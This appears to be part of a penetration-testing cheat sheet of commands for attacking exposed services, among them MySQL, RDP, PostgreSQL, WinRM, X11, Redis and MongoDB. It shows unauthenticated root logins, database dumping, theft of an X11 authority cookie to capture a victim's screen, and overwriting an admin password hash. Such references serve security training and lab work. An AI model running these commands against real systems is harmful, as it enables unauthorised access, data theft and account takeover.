 - MySQL (port 3306)

```
$ mysql -h <IP address> -u root
MariaDB [(none)]> SHOW databases;
MariaDB [(none)]> USE <database name>;
MariaDB [(none)]> SHOW tables;
MariaDB [(none)]> SELECT * FROM <table name>;
```

- RDP (port 3389)

```
$ xfreerdp /v:<IP address>
$ xfreerdp /v:<IP address> /u:Administrator
$ freerdp /v:<IP address> /cert:ignore /u:Administrator
```

- PostgreSQL (port 5432)

```
$ psql -h <IP address> -U <username> -p <password>
<username>=# \l
<username>=# \c secrets
<username>=# \dt
<username>=# SELECT * FROM <table>;
```

- WinRM (port 5985)

```
$ evil-winrm -i <IP address> -u <username> -p <password>
```

- X11 (port 6000)

```
$ cat .Xauthority | base64
$ echo AQAADHN<...SNIP...>S0xAoNm/oZZ4/ | base64 -d > /tmp/.Xauthority
$ export XAUTHORITY=/tmp/.Xauthority
$ w
$ xwd -root -screen -silent -display :0 > /tmp/screen.xwd
$ convert screen.xwd screen.png
```

- Redis (port 6379)

```
$ redis-cli -h <IP address>
<IP address>:6379> select <db number e.g. 0>
<IP address>:6379> keys *
<IP address>:6379> get <key>
```

- MongoDB (port 27017/27117)

```
$ ./mongo mongodb://<IP address>:27017
> show dbs;
> use <db name>;
> show collections;
> db.<collection>.find().pretty();
$ mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
$ mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("<Object ID>")},{$set:{"x_shadow":"<SHA-512 hash>"}})'
```

